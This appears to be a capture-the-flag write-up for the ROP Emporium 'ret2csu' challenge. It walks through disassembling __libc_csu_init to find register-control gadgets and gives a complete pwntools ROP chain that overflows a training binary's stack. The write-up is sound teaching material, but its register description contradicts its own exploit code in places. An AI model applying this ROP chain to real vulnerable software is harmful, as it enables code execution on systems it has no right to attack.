




# ret2csu

Link: https://ropemporium.com/challenge/ret2csu.html

Description: *Call the ret2win() function, the caveat this time is that the third argument (which you know by now is stored in the rdx register on x86_64 Linux) must be 0xdeadcafebabebeef*

-----------------------


## 1. Calculating RIP overwrite offset

First, we check with GDB that the offset is still 40. It seems so given that with 41 characters we see only one "41" in RIP registry::


-----------------------

## 2. Studying the binary

Then we see the address of *ret2win()* is 0x4007b1:


We will also check that it is a dynamically compiled file and the GCC version used for compiling it:


Lastly we will execute *objdump -x ret2csu* to check the addresses of the writable areas:


-----------------------

## 3. Ret-2-csu

From [here](https://i.blackhat.com/briefings/asia/2018/asia-18-Marco-return-to-csu-a-new-method-to-bypass-the-64-bit-Linux-ASLR-wp.pdf), *it is not a programming error on the code that implements the ASLR, but a exploitation method that it is possible because of the "attached code" by the linker (...). The problem appears when an application is Dynamically compiled, which represents 99% of all applications. More precisely when the linker "attaches code" to the ELF executable that is not coming from the source code of the application.*

So the idea is that some gadgets in *_libc_csu_init()*, included by the compiler, allow to control the registers RDI, RSI and RDX. This is very important because from the "callme" challenge we know that the arguments are pushed to the stack in the 32 bits architecture but stored in registers in the 64 bits one ([source](https://uclibc.org/docs/psABI-x86_64.pdf): the first argument is stored in RDI, the second in RSI and the third in RDX.

Gadget 1 in *_libc_csu_init()* allows to control RBX, RBP, R12, R13, R14 and R15 with a "pop; ...; ret" gadget:

```
112a: 5b pop %rbx GADGET 1   # pop rbx
112b: 5d pop %rbp            # pop rbp
112c: 41 5c pop %r12         # pop r12
112e: 41 5d pop %r13         # pop r13
1130: 41 5e pop %r14         # pop r14
1132: 41 5f pop %r15         # pop r15
1134: c3 retq                # ret
```

Gadget 2 in *_libc_csu_init()* allows to control RDX, RSI and RDI. The last instruction is a call to the address contained in (R12 + (RBX * 8) ):

```
1110: 4c 89 ea mov %r13,%rdx GADGET 2   # mov rdx, r13
1113: 4c 89 f6 mov %r14,%rsi            # mov rsi, r14 
1116: 44 89 ff mov %r15d,%edi           # mov edi, r15d
1119: 41 ff 14 dc callq *(%r12,%rbx,8)  # call [r12 + rbx*8]
```

To find out if this is possible, first we will check if the function is really included in the binary using *info functions* in GDB:




Then, we will disassemble the *_libc_csu_init()* function using *disassemble \__libc_csu_init*:


The output of this function is:

```
gef➤  disassemble __libc_csu_init
Dump of assembler code for function __libc_csu_init:
   0x0000000000400840 <+0>:	push   r15
   0x0000000000400842 <+2>:	push   r14
   0x0000000000400844 <+4>:	mov    r15,rdx
   0x0000000000400847 <+7>:	push   r13
   0x0000000000400849 <+9>:	push   r12
   0x000000000040084b <+11>:	lea    r12,[rip+0x2005be]        # 0x600e10
   0x0000000000400852 <+18>:	push   rbp
   0x0000000000400853 <+19>:	lea    rbp,[rip+0x2005be]        # 0x600e18
   0x000000000040085a <+26>:	push   rbx
   0x000000000040085b <+27>:	mov    r13d,edi
   0x000000000040085e <+30>:	mov    r14,rsi
   0x0000000000400861 <+33>:	sub    rbp,r12
   0x0000000000400864 <+36>:	sub    rsp,0x8
   0x0000000000400868 <+40>:	sar    rbp,0x3
   0x000000000040086c <+44>:	call   0x400560 <_init>
   0x0000000000400871 <+49>:	test   rbp,rbp
   0x0000000000400874 <+52>:	je     0x400896 <__libc_csu_init+86>
   0x0000000000400876 <+54>:	xor    ebx,ebx
   0x0000000000400878 <+56>:	nop    DWORD PTR [rax+rax*1+0x0]
   0x0000000000400880 <+64>:	mov    rdx,r15
   0x0000000000400883 <+67>:	mov    rsi,r14
   0x0000000000400886 <+70>:	mov    edi,r13d
   0x0000000000400889 <+73>:	call   QWORD PTR [r12+rbx*8]
   0x000000000040088d <+77>:	add    rbx,0x1
   0x0000000000400891 <+81>:	cmp    rbp,rbx
   0x0000000000400894 <+84>:	jne    0x400880 <__libc_csu_init+64>
   0x0000000000400896 <+86>:	add    rsp,0x8
   0x000000000040089a <+90>:	pop    rbx
   0x000000000040089b <+91>:	pop    rbp
   0x000000000040089c <+92>:	pop    r12
   0x000000000040089e <+94>:	pop    r13
   0x00000000004008a0 <+96>:	pop    r14
   0x00000000004008a2 <+98>:	pop    r15
   0x00000000004008a4 <+100>:	ret    
End of assembler dump.
```
We can see there are indeed 2 gadgets very similar to the ones in the Black Hat Asia 18 paper, but the registers R13 and R15 are swapped in the first gadget.

Gadget 1 (address 0x400880):

```
   0x0000000000400880 <+64>:	mov    rdx,r15
   0x0000000000400883 <+67>:	mov    rsi,r14
   0x0000000000400886 <+70>:	mov    edi,r13d
   0x0000000000400889 <+73>:	call   QWORD PTR [r12+rbx*8]
```

Gadget 2 (address 0x40089a):

```
   0x000000000040089a <+90>:	pop    rbx
   0x000000000040089b <+91>:	pop    rbp
   0x000000000040089c <+92>:	pop    r12
   0x000000000040089e <+94>:	pop    r13
   0x00000000004008a0 <+96>:	pop    r14
   0x00000000004008a2 <+98>:	pop    r15
```


With these, we can control RDX, RSI and RDI. We could also control RSI and RDI with typical "pop; ret" gadgets as in previous challenges ( *0x00000000004008a3 : pop rdi ; ret* and *0x00000000004008a1 : pop rsi ; pop r15 ; ret*) but we will try to avoid using them.

The only problem left is the call instruction in gadget 1, which calls the function in the address contained in *(r12 + rbx \* 8)*. We can set RBX to 0 using gadget 2, but we still need to write the address of *ret2win()* (0x4007b1) in a writable area and set R12 to that address. Nevertheless, there are not write-what-where primitives and functions such as "scanf()", which allows us to write a value in memory, are not present in the binary.

We may try to find a string containing the "ret2win()"" address in memory, but there is not any:


As this is not possible, we will take a different approach. Using the gadget 2 we will set the values of R13, R14 and R15, which will help to set the values of RDX, RSI and RDI when calling the gadget 1, just as planned before. However, instead of calling "ret2win()", we will make the gadget continue and when it finishes after the "ret", send the "ret2win()" address so it gets executed (but now, with EDX value set to "0xdeadcafebabebeef").

To get there, we need to:

- Call to an existing function which does not change the content of RDX.

- Make sure RBP and (RBX + 1) have the same values so the program does not jump to 0x400880 (*jne 0x400880*). As we want RBP to be 0 to make the calculation of *(r12 + rbx \* 8)*, we need the values RBP = 0 and RBX = 1.

- Send 7 random values, one for "add rsp, 8" and one for every "pop reg" after it until getting to rhe "ret".


For reference, we must now think of the gadget 1 as this: 

```
0x000000000040089a <+90>:	pop    rbx                 <- 1 = rbp + 1
0x000000000040089b <+91>:	pop    rbp                 <- 0
0x000000000040089c <+92>:	pop    r12                 <- Address containing address of existing function
0x000000000040089e <+94>:	pop    r13                 <- garbage (RDI)
0x00000000004008a0 <+96>:	pop    r14                 <- garbage (RSI)
0x00000000004008a2 <+98>:	pop    r15                 <- 0xdeadcafebabebeef (RDX)
```

```
0x0000000000400880 <+64>:	mov    rdx,r15                <- 0xdeadcafebabebeef (RDX)
0x0000000000400883 <+67>:	mov    rsi,r14                <- garbage (RSI)
0x0000000000400886 <+70>:	mov    edi,r13d               <- garbage (RDI)
0x0000000000400889 <+73>:	call   QWORD PTR [r12+rbx*8]  <- Call to existing function
0x000000000040088d <+77>:	add    rbx,0x1
0x0000000000400891 <+81>:	cmp    rbp,rbx                <- Check RBP = RBX + 1
0x0000000000400894 <+84>:	jne    0x400880 <__libc_csu_init+64>
0x0000000000400896 <+86>:	add    rsp,0x8                <- garbage x1
0x000000000040089a <+90>:	pop    rbx                    <- garbage x2
0x000000000040089b <+91>:	pop    rbp                    <- garbage x3
0x000000000040089c <+92>:	pop    r12                    <- garbage x4
0x000000000040089e <+94>:	pop    r13                    <- garbage x5
0x00000000004008a0 <+96>:	pop    r14                    <- garbage x6
0x00000000004008a2 <+98>:	pop    r15                    <- garbage x7
0x00000000004008a4 <+100>:	ret 
```

Regarding the problem of the function to call which does not change the value of the register RDX, we will check the functions in the binary, disassemble each of them and try to find a string with their addresses with GDB:




We will disassemble them with *disass function_name* or *disass function_address*:



These functions' addresses are not found when the binary is run, so we will discard them:

- 0x0000000000400590  puts@plt
- 0x00000000004005a0  system@plt
- 0x00000000004005b0  printf@plt
- 0x00000000004005c0  memset@plt
- 0x00000000004005d0  fgets@plt
- 0x00000000004005e0  setvbuf@plt
- 0x0000000000400620  \_dl_relocate_static_pie
- 0x0000000000400630  deregister_tm_clones
- 0x0000000000400660  register_tm_clones
- 0x0000000000400714  pwnme
- 0x00000000004007b1  ret2win


However, these function addresses are found. We will disassemble them and see which ones affect the register RDX and which do not:

- 0x0000000000400560  \_init  - It does **NOT** change the value of RDX
- 0x00000000004005f0  \_start - It changes the value of RDX
- 0x00000000004006a0  \__do_global_dtors_aux - It does **NOT** change the value of RDX
- 0x00000000004006d0  frame_dummy - It does **NOT** change the value of RDX
- 0x00000000004006d7  main - It changes the value of RDX
- 0x0000000000400840  \__libc_csu_init - It changes the value of RDX
- 0x00000000004008b0  \__libc_csu_fini - It does not change the value of RDX but breaks the logic of the exploit
- 0x00000000004008b4  \_fini - It does **NOT** change the value of RDX


Next, we must search for the strings using *grep "function_address"* after setting a breakpoint in main() function with *break main* and running the program:


We can find the string containing the address of the 4 functions we are interested in twice once the program is running:

- \_init - String "0x400560" can be found in "0x400e38" and "0x600e38"

- \__do_global_dtors_aux - String "0x4006a0" can be found in "0x400e18" and "0x600e18"

- frame_dummy - String "0x4006d0" can be found in "0x400e10" and "0x600e10"

- \_fini - String "0x4008b4" can be found in "0x400e48" and "0x600e48"

-----------------------

## 4. Final exploit

The ROP code will be then:

```
ret2win =  elf.sym["ret2win"] # 0x4007b1
gadget_1 = 0x400880
gadget_2 = 0x40089a
function_call = 0x400e48
garbage = 0xcaca
third_argument = 0xdeadcafebabebeef

rop =  "A"*40
# GADGET 2
rop += p64(gadget_2)
rop += p64(0)
rop += p64(0x1)
rop += p64(function_call)  # r12 = Register containing the address of .fini
rop += p64(garbage)        # r13 = rdi
rop += p64(garbage)        # r14 = rsi
rop += p64(third_argument) # r15 = rdx
# GADGET 1
rop += p64(gadget_1)
rop += p64(garbage) # add rsp, 8
rop += p64(garbage) # pop rbx
rop += p64(garbage) # pop rbp
rop += p64(garbage) # pop r12
rop += p64(garbage) # pop r13
rop += p64(garbage) # pop r14
rop += p64(garbage) # pop r15
rop += p64(ret2win)

received = p.recvuntil("> ")
p.sendline(rop)
p.interactive()
```
We can execute it and it works correctly:




---------------

References: 

- https://i.blackhat.com/briefings/asia/2018/asia-18-Marco-return-to-csu-a-new-method-to-bypass-the-64-bit-Linux-ASLR-wp.pdf

- https://bananamafia.dev/post/x64-rop-redpwn/